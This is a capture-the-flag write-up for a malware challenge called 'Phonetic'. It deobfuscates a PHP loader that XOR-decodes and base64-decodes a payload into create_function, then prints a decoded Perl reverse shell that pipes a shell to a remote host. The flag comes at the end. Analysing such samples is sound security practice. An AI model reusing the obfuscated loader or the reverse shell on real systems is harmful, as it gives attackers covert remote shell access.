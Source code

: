 # Phonetic - 362pt
--------------------------------------
## Topic sumary

This problem gives us file `Phonetic`, you can download it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic) <br>
Open it with notepad++
```php 
<?php  


 function deGRi($wyB6B, $w3Q12 = '') { $zZ096 = $wyB6B; $pCLb8 = ''; for ($fMp3G = 0; $fMp3G < strlen($zZ096);) { for ($oxWol = 0; $oxWol < strlen($w3Q12) && $fMp3G < strlen($zZ096); $oxWol++, $fMp3G++) { $pCLb8 .= $zZ096[$fMp3G] ^ $w3Q12[$oxWol]; } } return $pCLb8; }
/*iNsGNGYwlzdJjfaQJIGRtTokpZOTeLzrQnnBdsvXYlQCeCPPBElJTcuHmhkJjFXmRHApOYlqePWotTXHMuiuNfUYCjZsItPbmUiXSxvEEovUceztrezYbaOileiVBabK*/

$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$gbaylYLd6204 = "LmQ9AT8aND16c2AcMh0lCS9BDFtTATklDzA.......";/*a fucking string =))) */
$fsPwhnfn8423 = "";
$oZjuNUpA325 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

/*aajypPZLxFoueiuYpHkwIQbmoSLrNBGmiaDTgcWLKRANAfJxGeoOIzIjLBHHsVEHKTrhqhmFqWgapWrPsuMYcbIZBcXQrjWWEGzoUgWsqUfgyHtbwEDdQxcJKxGTJqIe*/

$k = $oZjuNUpA325('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
$c = $k("/*XAjqgQvv4067*/", $fsPwhnfn8423( deGRi($fsPwhnfn8423($gbaylYLd6204), "tVEwfwrN302")));
$c();

/*TnaqRZZZJMyfalOgUHObXMPnnMIQvrNgBNUkiLwzwxlYWIDfMEsSyVVKkUfFBllcCgiYSrnTCcqLlZMXXuqDsYwbAVUpaZeRXtQGWQwhcAQrUknJCeHiFTpljQdRSGpz*/
```
---------------------------------------------------------
WTF? are you kidding me =))) <br>
![](https://media.giphy.com/media/aZ3LDBs1ExsE8/giphy.gif)

I run the loops separately. it gives readable results :V
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
echo $fsPwhnfn8423; // base64_decode
```
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

echo $oZjuNUpA325; // strrev
```
Continue...
```php
echo strrev('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
//create_function
```
Put together we get
```php
create_function("",base64_decode(deGRi(base64_decode(/*fuckin string*/), "tVEwfwrN302")));
```
Run it and we get another php file =))), it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic_decode.php)<br>
I'm stuck here.... <br>
After a few minutes (actually hours .-.). I found some base64 strings in source code <br>
A string after decryption, it looks like this
```shell
#!/usr/bin/perl
use Socket;
$iaddr=inet_aton($ARGV[0]) || die("Error: $!\n");
$paddr=sockaddr_in($ARGV[1], $iaddr) || die("Error: $!\n");
$proto=getprotobyname('tcp');
socket(SOCKET, PF_INET, SOCK_STREAM, $proto) || die("Error: $!\n");
connect(SOCKET, $paddr) || die("Error: $!\n");
open(STDIN, ">&SOCKET");
open(STDOUT, ">&SOCKET");
open(STDERR, ">&SOCKET");
my $str = <<END;
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
`
end
END
system('/bin/sh -i -c "echo ${string}; bash"');
close(STDIN);
close(STDOUT);
close(STDERR)
```
Do you see it?
```shell
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
```
![](https://media.giphy.com/media/JqDeI2yjpSRgdh35oe/giphy.gif)

Decode it~~~<br>
`
flag{9b5c4313d12958354be6284fcd63dd26}
`
